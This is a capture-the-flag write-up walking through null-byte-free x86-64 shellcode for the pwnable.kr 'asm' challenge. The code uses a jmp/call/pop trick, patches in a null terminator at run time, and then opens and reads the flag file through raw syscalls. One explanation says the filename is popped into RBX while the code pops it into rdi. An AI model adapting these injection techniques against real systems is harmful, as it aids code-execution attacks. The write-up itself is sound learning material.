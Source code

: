 ###Walkthrough of `payload.asm`:
```asm
	section .mysec write exec alloc
	global	main
```
I make my own secton to allow it to be set to write. Its not needed in this asm but non the less its there
```asm
main:
	jmp		push_fname
s1:
```
Then we jump to push_fname which pushes the flags file name to the stack and jumps back to `s1`
```asm
push_fname:
	call	s1
fname:
	;db "/home/nuser/ctf/progress/pwnable.kr/asm/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
nullchar:
	db "a"
```
Since we can not reference a label for our string, a work around is required.
The call to s1 pushes the address of our string onto the stack and jumps back to s1.
The string is placed at the bottom of .mysec because if it was at the top, a near jump call would contain NULL characters.
Making our string null terminated will have the same issue so it is left as an `a` character for now and will be changed at
run time.
```asm
;add null char
	xor		rax, rax
	pop		rbx
	push 		rbx
	add		bx,231
	mov		[ebx],eax
```
Once we return to `s1:`, our string is null terminated.

Then the flag is opened for reading.
```asm
;open:
	add		al, 0x02	;sys_open
	pop		rdi		;const char *fname
	push 		rdi
	xor		rsi, rsi	;int flags
	xor		rdx, rdx	;int mode
	syscall
```
The filename string is on the stack so we simply pop it off into `RBX`

Then we read the flag
```asm
;read:
	mov		rdi, rax	;int fd
	xor		rax, rax	;sys_read
	pop		rsi		;buff
	push 		rsi
	add		dx, 400		;size
	syscall
```
The string holding the filename is overwriten with the contents of the flag.

